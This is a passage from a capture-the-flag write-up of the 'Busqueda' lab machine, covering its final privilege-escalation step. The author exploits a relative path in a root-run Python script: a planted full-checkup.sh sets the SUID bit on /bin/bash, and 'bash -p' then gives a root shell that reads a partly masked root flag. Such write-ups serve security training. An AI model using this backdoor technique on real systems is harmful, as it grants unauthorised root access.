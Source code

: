 In fact, the system-checkup.py is the same script we were able to execute as root. If we look carefully, the 47th line has a **relative path**. We could try to exploit it.

<img src="/assets/img/busqueda/Untitled 14.png" alt="Untitled 14.png" style="width:800px;">

This bash script will create a **backdoor** for us.

```bash
svc@busqueda:~$ echo -e '#!/bin/bash\nchmod +s /bin/bash' > full-checkup.sh; chmod +x full-checkup.sh

svc@busqueda:~$ ls
full-checkup.sh  user.txt
```

After executing the full-checkup command, /bin/bash has a SUID flag. 

```bash
svc@busqueda:~$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
[+] Done!

svc@busqueda:~$ ls -l /bin/bash
-rwsr-sr-x 1 root root 1396520 Jan  6  2022 /bin/bash
```

Last step would be to read the root flag. GGs!

```bash
svc@busqueda:~$ /bin/bash -p
bash-5.1# whoami
root

bash-5.1# cat /root/root.txt
43878bda2998e4ed****************

bash-5.1# exit
exit
```